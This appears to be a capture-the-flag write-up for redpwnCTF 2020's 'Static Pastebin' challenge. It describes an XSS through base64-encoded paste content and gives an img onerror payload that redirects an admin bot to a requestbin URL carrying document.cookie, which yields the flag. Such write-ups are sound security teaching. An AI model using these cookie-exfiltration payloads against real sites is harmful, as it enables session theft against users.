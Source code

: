 # Static Pastebin

So first things first, create a pastebin. When you go to the display, you'll see a url like [https://static-pastebin.2020.redpwnc.tf/paste/\#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==](https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPXggb25lcnJvcj0iZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cueW91dHViZS5jb20vd2F0Y2g/dj11YjgyWGIxQzhvcyciPg==)

That looks kinda like base64, and if you base64 decode the thing after [https://static-pastebin.2020.redpwnc.tf/paste/\#](https://static-pastebin.2020.redpwnc.tf/paste/#) you'll find it decodes to the content of the pastebin! This allows us to easily create pastebin messages.

There's also an admin bot submit form, where we can submit a url, and the admin bot will visit it.

Rak found that the xss `><img src='' onerror="javascript code">` worked.

First, we can try a simple redirect. `><img src='' onerror="document.location='requestbinurl'">`. I set up a requestbin for this purpose. Remember: we base64 encode the payload, and append it to the major part of the url.

[https://static-pastebin.2020.redpwnc.tf/paste/\#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==](https://static-pastebin.2020.redpwnc.tf/paste/#PjxpbWcgc3JjPScnIG9uZXJyb3I9J2RvY3VtZW50LmxvY2F0aW9uPSJodHRwOi8vcmVxdWVzdGJpbi5uZXQvci8xbGZyZnlpMSInPg==), as a sample, works, sending a request to our requestbin. Let's exfiltrate some information. We can use GET parameters to exfiltrate data.

`><img src='' onerror='document.location="http://requestbin.net/r/1lfrfyi1?thing=" + document.cookie'>`

This would redirect the admin to our requestbin, sending the cookies as the "thing" parameter. Base64 encoding and submitting this as a url, a request on the requestbin pops up with the parameters ?thing=flag=flag{54n1t1z4t10n\_k1nd4\_h4rd}, giving us the flag,

## flag{54n1t1z4t10n\_k1nd4\_h4rd}

